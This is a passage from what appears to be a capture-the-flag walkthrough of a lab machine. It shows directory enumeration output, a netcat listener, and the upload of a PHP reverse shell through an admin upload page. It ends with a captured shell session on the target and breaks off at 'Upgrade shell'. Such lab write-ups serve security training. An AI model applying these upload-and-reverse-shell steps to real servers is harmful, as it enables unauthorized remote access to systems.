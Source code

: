 ```
[18:46:44] 403 -  276B  - /js/
[18:46:47] 403 -  276B  - /server-status
[18:46:47] 403 -  276B  - /server-status/
[18:46:47] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/
[18:46:47] 403 -  276B  - /themes/
[18:46:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
[18:46:48] 403 -  276B  - /uploads/

Task Completed
```

This line:

    [18:46:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/

Has what we want.

Start nc listener:

    nc -nvlp 1234

Time to upload a php file.

Upload `payload/test.php` on page <http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads&action=upload> and go to `http://10.10.10.28/uploads/test.php`. Should see a marquee!

Then do the same with `shell.php`!

<http://10.10.10.28/uploads/shell1.php>

Post-upload success, we have shell!

```
┌─[vagrant@vagrant-virtualbox]─[~]
└──╼ $nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.245] from (UNKNOWN) [10.10.10.28] 33894
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:05:18 up  2:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ip a | grep inet
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
    inet 10.10.10.28/24 brd 10.10.10.255 scope global ens160
    inet6 dead:beef::250:56ff:feb9:1fb5/64 scope global dynamic mngtmpaddr 
    inet6 fe80::250:56ff:feb9:1fb5/64 scope link 
```

## Upgrade shell

Run 
